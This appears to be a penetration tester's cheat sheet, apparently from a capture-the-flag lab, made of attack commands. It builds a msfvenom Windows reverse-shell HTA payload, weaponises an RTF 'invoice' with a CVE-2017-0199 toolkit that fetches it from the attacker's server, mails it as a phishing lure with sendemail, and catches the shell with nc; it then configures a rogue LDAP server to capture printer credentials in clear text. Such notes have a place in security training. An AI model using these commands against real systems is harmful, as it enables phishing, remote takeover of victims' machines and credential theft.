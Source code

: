     msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443 -f hta-psh -o rev.hta

Then create .rtf file 

https://github.com/bhdresh/CVE-2017-0199

python2 cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.12/rev.hta -t rtf -x 0

start the python server for file transfer 

    sudo python -m http.server 80

then start the nc listener

    nc -lvp 443

Now send the mail using sendmail

sendemail -f 0xarun@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "Payment Overdue" -a invoice.rtf -s 10.10.10.77 -v

Check the nc!


## Ldap passback attack vulnrable server setup (rouge ldap server)

sudo systemctl enable slapd

sudo systemctl start slapd

sudo dpkg-reconfigure -p low slapd // configure it with the domain which you attack

We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. To do this, we need to create a new ldif file, called with the following content:

To capture the credentials in clear-text, we need to re-configure the LDAP server to support PLAIN and LOGIN authentication methods. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. To do this, we need to create a new ldif file, called with the following content:

#olcSaslSecProps.ldif

dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred



sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart // to patch ldif file to our ldap server

To verify the modification:

ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN

Change the server ip on printer webpage then start, Check the following error: "This distinguished name contains invalid syntax". If you receive this error, then use a tcpdump to capture the credentials.
